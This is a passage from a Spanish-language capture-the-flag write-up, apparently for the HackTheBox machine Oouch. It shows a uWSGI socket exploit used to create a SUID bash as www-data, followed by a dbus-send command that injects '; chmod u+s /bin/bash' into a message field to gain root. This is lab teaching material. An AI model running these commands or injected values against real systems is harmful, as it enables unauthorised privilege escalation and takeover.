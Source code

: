Investigando un poco mas encontramos la manera en la que qtc se comunica y es atraves de un bus
![[Pasted image 20240202192921.png]]
## UWSGI Exploitation [RCE] - User Pivoting
Si leemos el archivo vemos quee efectivamente se trata de un bus. Para abusar de esto, podemos hacer uso de un exploit que encontramos en Google. Basicamente, tenemos que subir el exploit a la maquina, nc y listo. Cabe mencionar que al exploit se le deben de borrar las lineas donde hace uso de la libreria **Bytes** por que da un problema.
Ejecutamos el script para copiar la bash y otorgarle permisos SUID para ganar una bash como www-data
```
$ python3 exploit.py -m unix -u uwsgi.socket -c "cp /bin/bash /tmp/bash"
[*]Sending payload.

$ python3 exploit.py -m unix -u uwsgi.socket -c "chmod u+s /tmp/bash"
[*]Sending payload.

$ ls -la bash 
-rwsr-xr-x 1 www-data www-data 1168776 Feb  3 04:23 bash

$ ./bash -p

bash-5.0$ whoami
www-data
```
 
## Abusing DBUS Message [Privilege Escalation]
Una vez como www-data, vamos aprovechar el DBUS que como qtc no teniamos permisos, para escalar privilegios. Vamos a mandar un mensaje al BUS con un Payload para obtener una shell como root.
```
$ Dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block "; chmod u+s /bin/bash"
```

Y ya podriamos ejecutar la bash como el usuario **root** usando **bash -p**







 


